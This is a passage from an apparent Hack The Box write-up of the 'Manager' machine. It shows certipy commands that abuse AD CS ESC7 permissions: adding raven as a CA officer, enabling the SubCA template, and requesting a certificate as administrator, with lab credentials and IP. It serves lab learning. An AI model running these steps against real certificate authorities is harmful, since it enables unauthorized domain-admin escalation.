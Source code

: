 Due to dangerous permissions as Raven it is vulnerable to ESC7.

### ESC7

```bash
certipy ca -ca 'MANAGER-DC01-CA' -dc-ip 10.129.238.7 -u raven -p 'R4v3nBe5tD3veloP3r!123' -add-officer raven
```

![image.png](/assets/images/Manager_HTB/image%2026.png)

Now enabling the certificate template **subCA.**

**Explanation:**

- Users with the Manage Certificate Authority (CA) and Manage Certificates access rights can issue failed certificate requests.
- The SubCA certificate template is vulnerable to ESC1, but only administrators can enroll in the template.
- A user can request a certificate from the SubCA. This request will be denied initially; however, the manager can approve it and then issue the certificate.
- Note: The SubCA certificate template is enabled by default but can also be enabled by utilizing Manage Certificate Authority (CA) and Manage Certificates access rights if it has been disabled by the admin.

```bash
certipy ca -ca 'MANAGER-DC01-CA' -dc-ip 10.129.238.7 -u raven -p 'R4v3nBe5tD3veloP3r!123' -enable-template SubCA
```

![image.png](/assets/images/Manager_HTB/image%2027.png)

Now we can request a certificate using the SubCA template, and as the request is denied we save the **primary key** and note the **request id.**

```bash
certipy req -ca 'MANAGER-DC01-CA' -dc-ip 10.129.238.7 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123' -template SubCA -upn administrator@manager.htb
```

![image.png](/assets/images/Manager_HTB/image%2028.png)
